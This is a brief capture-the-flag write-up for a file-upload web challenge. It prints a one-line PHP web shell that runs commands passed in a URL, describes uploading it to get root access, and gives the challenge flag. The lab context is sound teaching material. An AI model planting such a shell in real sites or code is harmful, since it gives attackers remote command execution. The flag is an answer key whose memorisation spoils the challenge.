


# ANALYSIS
This challenge is running on a web server, where we can upload a file. This way we notice that we might get a shell.


# SOLUTION
We create a php file, which can give us a command prompt from a url argument.


```php
## URL SHELL

<?php system($_GET['cmd']); ?>

 ```

After we upload this file to the server, we get a success message, as well as its location to execute it. Then, we get a shell and test for user privelleges.
  


  

We have root access so we cat the flag.
  



  
  
  
* Flag: picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}
